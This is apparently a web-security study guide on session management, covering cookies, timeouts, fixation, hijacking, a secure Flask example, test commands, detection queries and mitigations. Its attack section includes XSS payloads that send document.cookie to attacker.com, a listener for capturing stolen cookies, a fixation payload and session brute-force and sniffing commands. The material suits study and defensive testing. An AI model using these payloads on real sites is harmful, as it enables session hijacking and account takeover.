

# Session Management

> **Session management is how a web application remembers who you are between page loads — because HTTP forgets you on every request, so the app has to maintain state artificially.**

---

## 🧠 What Is It? (Beginner Explanation)

HTTP is stateless — every request is completely independent. The server doesn't remember that the request for `/dashboard` came from the same person who just logged in at `/login`. This is like a store where the cashier forgets you between every sentence.

To fix this, servers give you a "membership card" (session ID) after you log in. You present this card on every visit (`Cookie: session=abc123`), and the server looks up your account details in a records book (session store). Sessions add state to a stateless protocol.

**The security risk:** If someone steals your membership card, they become you. Session security is entirely about protecting that card.

---

## 🏗️ How It Works (Technical Deep Dive)

### Server-Side Sessions (Traditional)

```
LOGIN FLOW:
1. User submits credentials → server verifies
2. Server generates random session ID: "f8a9b3c2d4e5f6a7b8c9d0e1f2a3b4c5"
3. Server stores: {session_id: "f8a9b3...", user_id: 42, role: "admin", created: timestamp}
   (in memory, Redis, database, or filesystem)
4. Server sends: Set-Cookie: session=f8a9b3...; HttpOnly; Secure; SameSite=Lax

SUBSEQUENT REQUEST FLOW:
1. Browser automatically sends: Cookie: session=f8a9b3...
2. Server looks up session_id in session store
3. Finds {user_id: 42, role: "admin"} → user identified
4. Processes request with that user's context
```

**Session store options:**

| Store | Pros | Cons |
|---|---|---|
| Memory (in-process) | Fastest | Lost on restart, doesn't scale horizontally |
| Redis | Fast, shared across servers | External dependency |
| Database | Persistent, queryable | Slower, adds DB load |
| Filesystem | Simple | Slow, doesn't scale |

### Client-Side Sessions (Stateless)

Instead of storing session data server-side, all data is encoded in the cookie itself:

```
Flask-style session cookie: .eJyrVkosLU4tLk4tKkvMTQUAGmQFdQ==.Signature
Content: {user_id: 42, role: "admin", _fresh: true}
```

The server signs the data to prevent tampering. If the signature is weak or missing → attacker can forge session data.

**JWT as sessions:** JWT tokens (see jwt.md) are sometimes used as session tokens. All user data is in the JWT, server verifies signature on each request, no server-side storage needed.

### What Makes a Session ID Weak?

**Requirements for a strong session ID:**
1. **Entropy**: At least 128 bits of randomness (32+ hex characters)
2. **Unpredictability**: Must come from a CSPRNG (cryptographically secure pseudorandom number generator)
3. **Uniqueness**: No two users should ever get the same ID
4. **Meaninglessness**: Should carry no decodable information about the user

**Signs of a weak session ID:**
```bash
# Sequential IDs (trivial to guess adjacent user's session)
session=0001, session=0002, session=0003...

# Timestamp-based (predictable)
session=1700000001_42  # Unix timestamp + user_id

# Base64 of user data without proper signing
session=dXNlcl9pZD00Mg==  # base64("user_id=42") — trivially forgeable

# MD5 of username + timestamp (fast to brute force)
session=5d41402abc4b2a76b9719d911017c592  # MD5 known to be fast

# Short session IDs (too few possibilities)
session=a3f9  # Only 4 hex chars = 65536 possibilities
```

---

## 📊 Diagram

### Session Fixation Attack

```mermaid
sequenceDiagram
    participant Attacker
    participant Victim
    participant Server

    Note over Attacker,Server: Phase 1 — Attacker Gets a Session ID
    Attacker->>Server: GET /login (not logged in)
    Server-->>Attacker: Set-Cookie: session=ATTACKER_KNOWN_SESSION_ID

    Note over Attacker,Victim: Phase 2 — Attacker "Fixes" Victim's Session
    Attacker->>Victim: Trick victim into using the known session ID
    Note right of Attacker: Methods:<br/>• XSS: document.cookie='session=ATTACKER_KNOWN_ID'<br/>• URL: https://app.com/login;jsessionid=FIXED_ID<br/>• Meta refresh with session in URL<br/>• Email with crafted link

    Note over Victim,Server: Phase 3 — Victim Logs In
    Victim->>Server: POST /login {username, password} Cookie: session=ATTACKER_KNOWN_SESSION_ID
    Server->>Server: Authenticates victim successfully
    Server->>Server: ⚠️ VULNERABLE: Does NOT regenerate session ID!
    Server-->>Victim: 302 /dashboard Cookie: session=ATTACKER_KNOWN_SESSION_ID (same ID!)

    Note over Attacker,Server: Phase 4 — Attacker Hijacks Authenticated Session
    Attacker->>Server: GET /dashboard Cookie: session=ATTACKER_KNOWN_SESSION_ID
    Server->>Server: Look up session → user = Victim
    Server-->>Attacker: 200 — Victim's dashboard!
    Note right of Attacker: Attacker is now authenticated as Victim
```

### Session Hijacking Pathways



---

## ⚙️ Technical Details

### Session vs Token Comparison

| Feature | Server-Side Session | JWT / Client-Side Token |
|---|---|---|
| **Data location** | Server (Redis/DB) | Client (cookie/localStorage) |
| **Revocation** | Instant — delete from store | Hard — wait for expiry |
| **Scalability** | Requires shared store | Stateless — scales easily |
| **Size** | Tiny ID in cookie | Larger (all data encoded) |
| **Sensitive data** | Safe (server-only) | In token (encrypted or visible) |
| **MFA tracking** | Easy (just update session) | Needs new token or claim |
| **Concurrent sessions** | Easily managed | Harder to track |

### Cookie Security Attributes — Detailed Impact

```http
# Optimal session cookie configuration
Set-Cookie: session=f8a9b3c2d4e5f6a7; 
            HttpOnly;       # No JS access → defeats XSS theft
            Secure;         # HTTPS only → defeats sniffing
            SameSite=Lax;   # No cross-site POST → defeats most CSRF
            Path=/;         # Cookie sent to all paths
            Max-Age=3600;   # Expire after 1 hour
```

**SameSite Explained:**
- `SameSite=Strict`: Cookie not sent in ANY cross-site request (including top-level navigation from Google). Most secure, but breaks cross-site links.
- `SameSite=Lax` (default in modern browsers): Cookie sent in top-level GET navigation (clicking links), but NOT in cross-site POST/AJAX. Stops most CSRF.
- `SameSite=None`: Cookie sent in all requests. Requires `Secure`. Needed for third-party embedding (iframes, payment widgets).

### Session Timeout Types

| Timeout Type | Description | Implementation |
|---|---|---|
| **Idle timeout** | Session expires after X minutes of inactivity | Update `last_activity` on each request; expire if `now - last_activity > idle_limit` |
| **Absolute timeout** | Session expires X hours after creation, regardless of activity | Store `created_at`; expire if `now - created_at > absolute_limit` |
| **Renewal on activity** | Extend cookie expiry on each request | Update cookie `Max-Age` with each response |

**Recommendation:** Implement BOTH idle (15-30 min) AND absolute (8-24 hours) timeouts.

### Session Puzzling / Variable Pollution

Session puzzling occurs when the same session variable name is used for different purposes across the application. Example:

```python
# Login sets: session['user_id'] = 42
# Password reset sets: session['user_id'] = email_being_reset@example.com

# Exploit flow:
# 1. Start password reset for admin@example.com
#    → session['user_id'] = "admin@example.com"
# 2. Navigate to /dashboard
#    → app reads session['user_id'] = "admin@example.com"
#    → looks up user where email = "admin@example.com"
#    → authenticates as admin!
```

---

## 🔴 Attack Surface & Exploitation

### Attack 1: Session Fixation (Step-by-Step)

**Pre-conditions:** Server doesn't regenerate session ID after login.

**Scenario 1: Session in URL (PHP JSESSIONID style)**
```bash
# Step 1: Attacker visits login page to get a valid (but unauthenticated) session
curl -c /tmp/cookies.txt https://target.com/login
# Response: Set-Cookie: PHPSESSID=abc123

# Step 2: Craft malicious link that sets the known session ID
# https://target.com/login?PHPSESSID=abc123
# Some PHP apps accept session ID in URL (session.use_trans_sid = 1)

# Step 3: Trick victim into visiting:
# https://target.com/login?PHPSESSID=abc123

# Step 4: Victim logs in. If server doesn't regenerate session ID:
# Session abc123 is now authenticated as victim

# Step 5: Attacker uses same session ID to access victim's account
curl -b "PHPSESSID=abc123" https://target.com/dashboard
```

**Scenario 2: XSS-based fixation**
```javascript
// Attacker's XSS payload on vulnerable page
// Forces victim's browser to set a known session cookie
document.cookie = "session=ATTACKER_KNOWN_SESSION; domain=.target.com; path=/";
// Then redirect victim to login page → they authenticate with fixed session ID
window.location = "https://target.com/login";
```

**Testing for session fixation:**
1. Get a session ID before login (e.g., from /login page).
2. Log in.
3. Check if the session ID changed after login.
4. If session ID is the SAME before and after login → fixation vulnerability.

```bash
# Test session fixation
BEFORE_LOGIN=$(curl -s -I https://target.com/login | grep "Set-Cookie" | grep -oP 'session=\K[^;]+')
echo "Before login session: $BEFORE_LOGIN"

# Now log in
AFTER_LOGIN=$(curl -s -I -X POST https://target.com/login \
  -d "username=testuser&password=testpass" \
  -b "session=$BEFORE_LOGIN" | grep "Set-Cookie" | grep -oP 'session=\K[^;]+')
echo "After login session: $AFTER_LOGIN"

if [ "$BEFORE_LOGIN" = "$AFTER_LOGIN" ] || [ -z "$AFTER_LOGIN" ]; then
    echo "[VULNERABLE] Session ID did not change after login!"
else
    echo "[SECURE] Session ID rotated after login"
fi
```

### Attack 2: Session Hijacking via XSS

If the session cookie lacks `HttpOnly`, JavaScript can read it:

```javascript
// XSS payload to steal session cookie
// Attacker injects this into a vulnerable parameter

// Simple theft
var i = new Image();
i.src = "https://attacker.com/steal?c=" + document.cookie;

// More stealthy approach (encoded)
fetch("https://attacker.com/steal?" + btoa(document.cookie));

// Using XMLHttpRequest
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://attacker.com/steal?cookie=" + encodeURIComponent(document.cookie));
xhr.send();

// Exfiltrate via WebSocket (harder to detect/block)
var ws = new WebSocket("wss://attacker.com");
ws.onopen = function() { ws.send(document.cookie); };
```

**Attacker's listener:**
```bash
# Python simple HTTP server to capture stolen cookies
python3 -m http.server 80 2>&1 | tee stolen_cookies.log
# Watch for: /steal?c=session=abc123

# Or using Burp Collaborator
# Set up collaborator server, use URL in XSS payload
```

### Attack 3: Session Hijacking via Network Sniffing

If the application doesn't enforce HTTPS, session cookies traverse the network in plaintext:

```bash
# On same network (WiFi cafe, corporate LAN):
# Capture traffic with Wireshark
# Filter: http.cookie contains "session"

# Using tcpdump
tcpdump -i eth0 -A 'tcp port 80' | grep -A5 "Cookie:"

# Example captured packet:
# GET /dashboard HTTP/1.1
# Host: target.com
# Cookie: session=f8a9b3c2d4e5f6a7

# Use stolen session:
curl -b "session=f8a9b3c2d4e5f6a7" http://target.com/dashboard
```

### Attack 4: Session Tokens in URLs

If the application puts session tokens in URLs:
```
https://app.com/dashboard?token=SECRET_SESSION_TOKEN
```

**Leakage vectors:**
- **Browser history**: Stored in browser history → anyone with physical access sees the token.
- **Referer header**: If user clicks a link to another site, `Referer: https://app.com/dashboard?token=SECRET` is sent.
- **Server logs**: Web server logs the full URL including query string → anyone with log access has the token.
- **Bookmark sharing**: User shares bookmark URL → shares session.
- **Proxy logs**: Corporate proxies log URLs.

**Testing for tokens in URLs:**
```bash
# Check all HTTP responses for session-like data in redirect Location headers
curl -v https://target.com/login -d "user=test&pass=test" 2>&1 | grep -i "location\|cookie\|session\|token"

# Check if logout redirects contain tokens
curl -v https://target.com/logout 2>&1 | grep "location"
```

### Attack 5: Insecure Session Invalidation

After clicking "Logout", does the session actually become invalid?

```bash
# Step 1: Login and capture session cookie
SESSION=$(curl -s -c /tmp/cookies.txt -X POST https://target.com/login \
           -d "user=alice&pass=password" -L | grep "session")

# Step 2: Logout
curl -b /tmp/cookies.txt https://target.com/logout

# Step 3: Try to use the old session cookie
curl -b "session=OLD_SESSION_VALUE" https://target.com/dashboard

# If you still get the dashboard → logout doesn't invalidate server-side session
```

**Why it happens:** The logout function only deletes the client-side cookie, but doesn't tell the server to destroy the session:

```php
// INSECURE logout — only removes client cookie
setcookie('session', '', time()-1);  // Delete cookie
// But session still exists in server's session store!

// SECURE logout — destroy server-side session too
session_start();
session_destroy();  // Remove server-side data
setcookie('session', '', time()-1, '/', '', true, true);
```

### Attack 6: Concurrent Session Control Issues

Many applications allow unlimited simultaneous sessions:

```
Scenario:
- Alice logs in from home → gets session_A
- Alice logs in from work → gets session_B  
- Attacker phishes Alice → logs in as Alice → gets session_C
- All three sessions are active simultaneously
- Alice has no way to know session_C exists
```

**Testing:**
```bash
# Log in from browser 1, capture session cookie
# Log in from browser 2 (incognito), capture second session cookie
# Verify both sessions work simultaneously
# → App should show "active sessions" and allow revocation
```

---

## 💥 Payloads & Examples

### Secure vs Insecure Session Implementation

```python
# ============================================================
# INSECURE PHP-STYLE SESSION HANDLING
# ============================================================

# INSECURE: Predictable session ID
import time
import hashlib

def create_session_INSECURE(user_id):
    # MD5 of timestamp — predictable!
    session_id = hashlib.md5(str(time.time()).encode()).hexdigest()
    return session_id

# INSECURE: Session ID in URL
def redirect_after_login_INSECURE(user_id):
    session_id = create_session_INSECURE(user_id)
    return f"/dashboard?session={session_id}"  # Token in URL — terrible!

# INSECURE: Logout doesn't destroy server session
def logout_INSECURE(request):
    # Only removes the cookie, session data remains in memory
    response = Response()
    response.delete_cookie('session')  # Client-side only
    return response  # Session still valid on server!

# ============================================================
# SECURE SESSION HANDLING (Python Flask)
# ============================================================

from flask import Flask, session, request, redirect, make_response
import secrets
import time
import redis

app = Flask(__name__)
app.secret_key = secrets.token_bytes(32)  # Cryptographically random

# Session store
r = redis.Redis(host='localhost', port=6379, db=0)

IDLE_TIMEOUT = 1800      # 30 minutes
ABSOLUTE_TIMEOUT = 28800  # 8 hours

def create_session(user_id: int, role: str) -> str:
    """Create a secure server-side session"""
    session_id = secrets.token_urlsafe(32)  # 256 bits of entropy
    session_data = {
        "user_id": user_id,
        "role": role,
        "created_at": int(time.time()),
        "last_active": int(time.time()),
        "ip": request.remote_addr,
        "user_agent": request.user_agent.string
    }
    # Store in Redis with absolute timeout as TTL
    r.setex(f"session:{session_id}",
            ABSOLUTE_TIMEOUT,
            str(session_data).encode())
    return session_id

def get_session(session_id: str) -> dict:
    """Retrieve and validate session"""
    data = r.get(f"session:{session_id}")
    if not data:
        return None  # Session doesn't exist

    import ast
    session_data = ast.literal_eval(data.decode())
    now = int(time.time())

    # Check idle timeout
    if now - session_data['last_active'] > IDLE_TIMEOUT:
        destroy_session(session_id)
        return None

    # Check absolute timeout
    if now - session_data['created_at'] > ABSOLUTE_TIMEOUT:
        destroy_session(session_id)
        return None

    # Update last active time
    session_data['last_active'] = now
    r.setex(f"session:{session_id}",
            ABSOLUTE_TIMEOUT - (now - session_data['created_at']),
            str(session_data).encode())

    return session_data

def destroy_session(session_id: str):
    """Properly invalidate session on server"""
    r.delete(f"session:{session_id}")

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')

    user = authenticate_user(username, password)
    if not user:
        return "Invalid credentials", 401

    # Create NEW session after authentication (prevent fixation)
    session_id = create_session(user.id, user.role)

    response = make_response(redirect('/dashboard'))
    response.set_cookie(
        'session',
        session_id,
        httponly=True,    # No JS access
        secure=True,      # HTTPS only
        samesite='Lax',   # CSRF protection
        max_age=ABSOLUTE_TIMEOUT,
        path='/'
    )
    return response

@app.route('/logout')
def logout():
    session_id = request.cookies.get('session')
    if session_id:
        destroy_session(session_id)  # IMPORTANT: server-side destruction

    response = make_response(redirect('/login'))
    # Also delete the cookie client-side
    response.delete_cookie('session', path='/')
    return response

@app.route('/dashboard')
def dashboard():
    session_id = request.cookies.get('session')
    if not session_id:
        return redirect('/login')
    
    session_data = get_session(session_id)
    if not session_data:
        return redirect('/login')
    
    return f"Welcome user {session_data['user_id']}!"
```

### Burp Suite Sequencer Usage

```
PURPOSE: Analyze session token randomness/entropy

STEPS:
1. Capture a request that generates a session token
   (e.g., GET /login → response contains Set-Cookie: session=NEW_TOKEN)

2. In Burp Proxy, right-click on the response → Send to Sequencer

3. In Sequencer tab:
   - Token Location: Select where the token appears
     (Cookie header → custom location → select session value)
   - Click "Start live capture"
   - Let it capture 10,000+ tokens

4. Click "Analyze now" to get entropy analysis

5. Read the results:
   - "Effective entropy (bits)": Should be 100+ bits
   - "Bit-level analysis": Should show good randomness distribution
   - Predictability score: Should be rated "Excellent" or "Good"

6. If entropy is low (< 50 bits) or predictability is poor:
   → Session IDs are predictable
   → Brute force attack may be feasible

MANUAL CHECK:
If you see tokens like:
  session=000001
  session=000002  
  session=000003
→ Sequential — trivial to predict

If you see:
  session=a3b9c2d4e5f6a7b8c9d0e1f2a3b4c5d6
  session=f7e2d1c8b4a3f2e1d0c9b8a7f6e5d4c3
→ Much better, but still need Sequencer analysis for certainty
```

### Session Test Checklist

| Test | Method | Expected (Secure) |
|---|---|---|
| **Session ID length** | Inspect cookie value | 32+ hex chars (128+ bits) |
| **Session ID entropy** | Burp Sequencer | 100+ effective bits |
| **Session fixation** | Check before/after login | Session ID changes after login |
| **HttpOnly flag** | Browser DevTools → Cookies | HttpOnly = ✓ |
| **Secure flag** | Browser DevTools → Cookies | Secure = ✓ |
| **SameSite attribute** | Browser DevTools → Cookies | SameSite=Lax or Strict |
| **Session in URL** | Check all redirect URLs | No session token in URL |
| **Session after logout** | Reuse old cookie post-logout | 401/redirect to login |
| **Idle timeout** | Leave session inactive 30min | Session expires |
| **Absolute timeout** | Use session for 8+ hours | Session expires |
| **Concurrent sessions** | Login twice simultaneously | Both should work OR app detects it |
| **Session on HTTP** | Intercept on non-HTTPS path | Cookie not sent over HTTP |

---

## 🛠️ Tools & Commands

```bash
# ============================================================
# CURL — SESSION TESTING
# ============================================================

# Login and save session cookie
curl -s -c session.jar -X POST https://target.com/login \
     -d "username=testuser&password=testpass" -L -v 2>&1 | grep "Set-Cookie\|Location"

# Use saved session
curl -b session.jar https://target.com/dashboard

# Test after logout (should fail)
curl -X GET https://target.com/logout -b session.jar
curl -b session.jar https://target.com/dashboard  # Should redirect to login

# Test session in URL (less common now)
curl "https://target.com/dashboard?PHPSESSID=test_session_123"

# ============================================================
# WFUZZ — SESSION BRUTE FORCE (IF WEAK ENTROPY)
# ============================================================
# If tokens appear sequential or have low entropy
wfuzz -c -z range,1000-9999 \
      -b "session=FUZZ" \
      --sc 200 \
      https://target.com/dashboard

# ============================================================
# PYTHON — SESSION ANALYSIS
# ============================================================
python3 << 'EOF'
import requests
import re
from collections import Counter

target = "https://target.com"
session_ids = []

# Collect 100 session IDs
for i in range(100):
    r = requests.get(f"{target}/login")
    cookie = r.cookies.get("session", "")
    if cookie:
        session_ids.append(cookie)

# Analyze patterns
print(f"Collected {len(session_ids)} session IDs")
print(f"Average length: {sum(len(s) for s in session_ids) / len(session_ids):.1f} chars")

# Check for patterns
if len(set(session_ids)) < len(session_ids):
    print("[WARNING] Duplicate session IDs found!")

# Check character entropy
all_chars = ''.join(session_ids)
char_freq = Counter(all_chars)
print(f"Unique characters used: {len(char_freq)}")
print("Top chars:", char_freq.most_common(5))
EOF

# ============================================================
# NIKTO — BASIC SESSION AUDIT
# ============================================================
nikto -h https://target.com -C all | grep -i "session\|cookie"
```

---

## 🔍 Detection

**Session attack indicators:**
```
- Same session ID used from multiple distinct IP addresses simultaneously (session hijacking)
- Session ID appearing in access log URLs (token in URL misconfiguration)
- Session authenticated immediately after login attempt from different IP (fixation)
- Multiple valid sessions for same user from different continents (impossible travel)
- Session accessed after logout event (failure to invalidate)
- Rapid sequential session IDs (predictable tokens)
- Session still active months after creation (no absolute timeout)
```

**Anomaly detection queries:**
```sql
-- Detect session used from multiple IPs (possible hijacking)
SELECT session_id, COUNT(DISTINCT ip_address) as ip_count
FROM access_logs
WHERE timestamp > NOW() - INTERVAL 1 HOUR
GROUP BY session_id
HAVING ip_count > 2;

-- Detect sessions accessed after logout
SELECT a.session_id, a.timestamp, a.path
FROM access_logs a
INNER JOIN logout_events l ON a.session_id = l.session_id
WHERE a.timestamp > l.logout_timestamp;

-- Detect session token in URL (configuration issue)
SELECT DISTINCT request_uri
FROM access_logs
WHERE request_uri REGEXP '(session|sid|token|PHPSESSID)=[a-zA-Z0-9]{20,}';
```

---

## 🛡️ Mitigation

### Session Management Security Best Practices

| Control | Implementation |
|---|---|
| **Generate strong session IDs** | `secrets.token_urlsafe(32)` — 256-bit entropy |
| **Regenerate after login** | Always issue new session ID after successful authentication |
| **HttpOnly cookie** | Prevents JavaScript from reading session cookie |
| **Secure cookie flag** | Cookie only sent over HTTPS |
| **SameSite=Lax or Strict** | Mitigates most CSRF attacks |
| **Idle timeout** | Expire sessions after 15-30 minutes of inactivity |
| **Absolute timeout** | Maximum session lifetime of 8-24 hours regardless of activity |
| **Secure logout** | Destroy server-side session data on logout |
| **Session binding** | Optionally bind session to IP + User-Agent (with caution — mobile users change IPs) |
| **Concurrent session management** | Track active sessions, allow user to revoke specific sessions |
| **Session token NOT in URLs** | Always use cookies, never URL parameters |
| **HTTPS everywhere** | Prevents network sniffing of session cookies |

---

## 📚 References

- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [OWASP Testing Guide: Testing Session Management](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/)
- [PortSwigger: Session Fixation](https://portswigger.net/web-security/authentication/other-mechanisms)
- [OWASP CSRF Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Burp Suite Sequencer Documentation](https://portswigger.net/burp/documentation/desktop/tools/sequencer)
- [Flask Session Security](https://flask.palletsprojects.com/en/2.0.x/security/#set-cookie-options)
- [RFC 6265 — HTTP State Management Mechanism (Cookies)](https://tools.ietf.org/html/rfc6265)
- [Same-Site Cookies Explained](https://web.dev/samesite-cookies-explained/)
